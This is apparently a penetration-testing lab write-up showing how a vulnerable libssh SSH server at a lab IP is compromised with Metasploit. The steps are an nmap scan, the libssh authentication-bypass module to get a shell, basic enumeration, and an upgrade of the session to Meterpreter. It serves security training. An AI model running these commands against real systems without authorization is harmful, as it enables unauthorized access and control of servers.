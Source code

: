 # 🔬SSH - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SSH server](https://www.attackdefense.com/challengedetails?cid=448)
>
>  - Target IP: `192.66.211.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [libssh Exploitdb](https://www.exploit-db.com/search?q=libssh)
>  - [libssh Authentication Bypass Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/libssh_auth_bypass/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.66.211.3
setg RHOST 192.66.211.3
workspace -a libssh
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.66.211.3
```

![db_nmap -sS -sV -O 192.66.211.3](.gitbook/assets/image-20230416142245546.png)

```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
info
# Description:
#   This module exploits an authentication bypass in libssh server code 
#   where a USERAUTH_SUCCESS message is sent in place of the expected 
#   USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 
#   0.8.0 through 0.8.3 are vulnerable. Note that this module's success 
#   depends on whether the server code can trigger the correct 
#   (shell/exec) callbacks despite only the state machine's 
#   authenticated state being set. Therefore, you may or may not get a 
#   shell if the server requires additional code paths to be followed.
options
set SPAWN_PTY true
run
sessions
sessions 3
```

![Metasploit - auxiliary/scanner/ssh/libssh_auth_bypass](.gitbook/assets/image-20230416142702051.png)

- Enumerate some information

```bash
id
cat /etc/*release
uname -r
```

![](.gitbook/assets/image-20230416142810774.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 3
set LHOST eth1
run

sessions
sessions 4
```

![shell_to_meterpreter](.gitbook/assets/image-20230416142923675.png)

------

